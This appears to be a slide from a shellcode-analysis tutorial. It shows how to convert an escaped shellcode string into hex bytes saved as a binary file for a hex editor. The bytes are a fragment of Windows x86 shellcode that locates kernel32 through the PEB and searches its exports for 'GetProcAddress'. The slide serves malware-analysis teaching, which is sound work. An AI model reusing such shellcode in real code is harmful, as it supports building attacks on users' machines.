

Convert text shellcodes
Step 1, text shellcode:

"\x33\xC9\x64\x8B\x41\x30\x8B\x40\x0C\x8B"
"\x70\x14\xAD\x96\xAD\x8B\x58\x10\x8B\x53"
"\x3C\x03\xD3\x8B\x52\x78\x03\xD3\x8B\x72"
"\x20\x03\xF3\x33\xC9\x41\xAD\x03\xC3\x81"
"\x38\x47\x65\x74\x50\x75\xF4\x81\x78\x04"
"\x72\x6F\x63\x41\x75\xEB\x81\x78\x08\x64“

Step 2, remove “\x” and quotes and save to a binary file:

33 C9 64 8B 41 30 8B 40 0C 8B
70 14 AD 96 AD 8B 58 10 8B 53
3C 03 D3 8B 52 78 03 D3 8B 72
20 03 F3 33 C9 41 AD 03 C3 81
38 47 65 74 50 75 F4 81 78 04
72 6F 63 41 75 EB 81 78 08 64
HxD - Freeware Hex Editor and Disk Editor:
http://mh-nexus.de/en/hxd/